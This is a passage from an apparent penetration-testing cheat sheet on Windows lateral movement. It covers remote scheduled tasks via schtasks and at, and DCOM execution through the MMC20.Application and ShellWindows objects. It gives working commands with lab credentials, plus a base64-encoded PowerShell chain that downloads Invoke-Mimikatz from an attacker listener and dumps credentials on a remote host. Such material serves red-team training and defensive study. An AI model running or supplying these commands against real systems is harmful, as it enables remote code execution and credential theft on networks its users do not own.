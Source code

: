 **Examples:**

```
schtasks.exe /Create /S 192.168.112.200 /U testlab\josh /P Password1 /TR "C:\Windows\System32\win32calc.exe" /TN "pwnd" /SC ONCE /ST 20:05
```

```
at.exe \\192.168.112.200 20:25 cmd /c "C:\Windows\System32\win32calc.exe"
```

### Microsoft Management Console (MMC2.0) Application Class

In 2017, Matt Nelson released [research](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/) into methods for lateral movement using DCOM. We strongly urge you to review his research for full details (it's worth the read). Reviewing all the intricacies of DCOM is outside the scope of what can/should be covered in a "cheat sheet", but leave it to say the MMC2.0 application class can be accessed remotely over RPC/DCOM, and exports the ExecuteShellCommand method which can be used to... Execute..a..Shell..Command.

MMC requires local admin due to the nature of the application, and will be blocked by the default firewall rules. BUT, we've seen enough networks that disable host firewalls to make good use of this technique.&#x20;

**Port:** 135/TCP (RPC), plus one high-random TCP (DCOM)

**Tools:** native .NET calls on Windows

**Example code execution:**

```
PS> $com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.112.200"))
PS> $com.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\calc.exe",$null,$null,"7")
```

\
**Example Invoke-Mimikatz** (listener started on 192.168.112.132:8000)**:**

```
PS> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("IEX (New-Object Net.WebClient).DownloadString('http://192.168.112.132:8000/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds > C:\\Users\\josh\\Desktop\\mimi.txt"))

PS> $com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.112.200"))
PS> $com.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe",$null,"-enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEAMQAyAC4AMQAzADIAOgA4ADAAMAAwAC8ASQBuAHYAbwBrAGUALQBNAGkAbQBpAGsAYQB0AHoALgBwAHMAMQAnACkAOwAgAEkAbgB2AG8AawBlAC0ATQBpAG0AaQBrAGEAdAB6ACAALQBEAHUAbQBwAEMAcgBlAGQAcwAgAD4AIABDADoAXABcAFUAcwBlAHIAcwBcAFwAagBvAHMAaABcAFwARABlAHMAawB0AG8AcABcAFwAbQBpAG0AaQAuAHQAeAB0AA==","7")
```

### ShellWindows Object

A few weeks after his initial research on MMC lateral movement, Matt Nelson published more research targeting DCOM objects that lacked an explicit LaunchPermission attribute. Read his post [here](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/) for a thorough review of the techniques shown below.
